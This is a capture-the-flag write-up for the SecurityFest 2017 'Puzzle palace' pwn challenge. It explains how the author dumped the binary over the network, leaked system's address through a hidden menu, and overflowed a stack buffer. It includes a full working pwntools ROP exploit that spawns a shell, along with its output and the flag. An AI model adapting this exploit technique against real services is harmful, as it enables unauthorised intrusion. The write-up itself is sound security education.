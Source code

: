 ```yaml
---
layout: post
title: "SecurityFest2017 - Puzzle palace"
date:   2017-06-01 20:00
categories: [SecurityFest2017]
tags: [Pwn]
author: jbz
---
```


_Adventure time! Find the magic bytes, kill the wizard, get all the flags!_

Pwn - 100 Points

This was a very fun challenge, too bad it was only worth 100 points :). The organizer provided the libc and a README containing this: `Yep you only get the libc, connect to the service and go for an adventure to get the rest.`

You can find the provided archive [here](https://github.com/jbzteam/CTF/raw/master/SecurityFest2017/PuzzlePalace/puzzle_palace.tar.gz). The remote server was `pwn.ctf.rocks` port `6666`.

Great! Let's the fun start.

First of all we have to get the binary from the remote server. When we connect to it we find ourselves in front of this menu:
```
The Puzzle Palace
===============
1) Go on an adventure to find the magic bytes!
2) Fight the evil wizard with the magic bytes!
3) Return home with shame

#>
```
If we type `1` we get:
```
You enter the Puzzle Palace!
A message glows brightly on the wall of this room [7F454C4602010100000000000000000003003E0001000000100A000000000000400000000000000038210000000000000000000040003800090040001B001A00]
Where to now adventurer?
1) Up
2) Down

#>
```
We see `454C46`, which is the hex of `ELF`. That's probably the start of the binary. To get more of it we just have to type `2` in the prompt and it will continue playing bytes until EOF. I used this script to dump the whole thing:
```python
from pwn import *
s = remote("pwn.ctf.rocks", 6666)
s.sendlineafter("#>", "1")
with open("bin", "w") as f:
    while True:
        data = s.recvuntil("#>")
        data = data.split("[")[1].split("]")[0]
        print data
        data = data.strip()
        data = [data[i:i+2] for i in xrange(0,  len(data), 2)]
        for x in data:
            f.write(chr(int(x, 16)))
        s.sendline("2")
```
Yes, there is no check for EOF but the script crashes when it reached EOF so it's good enough :). You can find the dumped binary [here](https://github.com/jbzteam/CTF/raw/master/SecurityFest2017/PuzzlePalace/bin).

Let's see what the dumped binary is:
```
$ file challenge
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7c3b19746df3ef56476d19ce0f657e14c0eb19cb, stripped
$ checksec challenge 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Nasty... well let's see how it works.

We know `1` of the initial menu, which is the leak of the binary, nothing much else there. `3` just quits the program. There's an hidden menu item if you press `Z`:
```c
if ( menu_entry == 'Z' )
  printf("Woah, nice! You found the hidden 'system' libc address:%p!\n", &system);
```
It leaks the address of `system`! Handy! Let's remember it for later.

Let's now focus on `2`.
```
Hope you got those magic bytes ready!
The wizard points at you and starts yelling 'lightning bolt!'
This would be a good time use those magic bytes: 
```
This is what we see when we press `2` in the main menu prompt. Let's see what it does after that:
```c
read_s2(256);
if ( strncmp("1337p0werOverWhelMing1337", s2, 25uLL) )
{
  puts("You utter the magic bytes but they are wrong and the evil wizard burns you to a crisp, GG!");
  exit(0);
}
printf("Nice! Pwn the wizard with some ROP and ROLL now!: ");
return read(0, &buf, 0x1337uLL);
```
So:
- `read_s2` just zeroes `s2` and writes 256 bytes read from stdin to it
- If `s2` is not `1337p0werOverWhelMing1337` the program exits
- It reads 0x1337 bytes of data (that is 4919 bytes) and saves it in `buf`, which is just a pointer on the stack. Ok, we can write stuff... a lot of it :)

If you remember, the binary has `NX` enabled, so no shellcode on the stack. It doesn't have a stack canary, which makes things easier in this case. So we just have to control RIP and create a ROP chain to execute our shell.

This is the final exploit:
```python
from pwn import *

s = remote("pwn.ctf.rocks", 6666)
#s = process("./bin")
libc = ELF("libc.so.6_eea5f41864be6e7b95da2f33f3dec47f")

s.sendlineafter("#>", "Z")
data = s.recvuntil("#>")

system_address = int(data.split(":")[1].split("!")[0], 16)
sh_address = system_address - 210208
libc_base = system_address - 283536
pop_rdi = libc_base + 0x21102

ropchain = ""
ropchain = "A" * 8 * 5
ropchain += p64(pop_rdi)
ropchain += p64(sh_address)
ropchain += p64(system_address)
log.info("system: {:x}".format(system_address))
log.info("libc: {:x}".format(libc_base))
log.info("sh: {:x}".format(sh_address))

s.sendline("2")
s.sendlineafter(":", "1337p0werOverWhelMing1337")
s.sendlineafter(":", ropchain)
s.interactive()
```
We create a simple ROP chain that `pop`s the address that points to `sh` in `rdi` and then we call `system`. Pretty straightforward.

- We first leak `system`'s address, and since the organizer provided libc we can easily calculate the address of `sh` and the location of a `pop rdi` gadget.
- We then prepare the payload that contains:
  - 40 bytes of padding to get to RIP (found via gdb)
  - the address of `pop rdi` that will overwrite RIP
  - the address of `sh` that will be put in `rdi`
  - the address of `system` that will run what's in `rdi`

Of course, we have to pass the string `1337p0werOverWhelMing1337` first. And we get our shell:
```bash
$ python exploit.py 
[+] Opening connection to pwn.ctf.rocks on port 6666: Done
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] system: 7febe305e390
[*] libc: 7febe3019000
[*] sh: 7febe302ae70
[*] Switching to interactive mode
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag
SCTF{1_4lwa4y5_h4t3d_w1zard5}
```

Happy hacking!



